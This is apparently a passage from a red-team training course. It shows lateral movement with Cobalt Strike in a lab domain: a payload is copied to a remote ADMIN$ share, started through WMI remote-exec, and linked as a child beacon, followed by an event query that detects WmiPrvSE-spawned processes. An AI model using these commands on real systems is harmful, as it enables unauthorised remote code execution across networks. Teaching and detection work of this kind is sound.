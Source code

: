 As you may have noticed, WMI is not part of the `jump` command but it is part of `remote-exec`. The `remote-exec` method uses WMI's "process call create" to execute any command we specify on the target. The most straight forward means of using this is to upload a payload to the target system and use WMI to execute it.

You can upload a file to a remote machine by `cd`'ing to the desired UNC path and then use the `upload` command.
```
beacon> cd \\web.dev.cyberbotic.io\ADMIN$
beacon> upload C:\Payloads\smb_x64.exe
beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
Started process 3280 on web.dev.cyberbotic.io
```
  

The process is now running on WEB so now we need to connect to it.
```
beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.30
```
  

As with WinRM, the process will be running in an elevated context of the calling user.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/bc3/047/089/wmi.png)

  

When a binary is executed via WMI in this way, it will be a child of `WmiPrvSE.exe`.  We can therefore look for process create events where WmiPrvSE is the parent.
```
event.category: process and event.type: start and process.parent.name: WmiPrvSE.exe
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/f3c/c95/e2c/wmiprvse.png)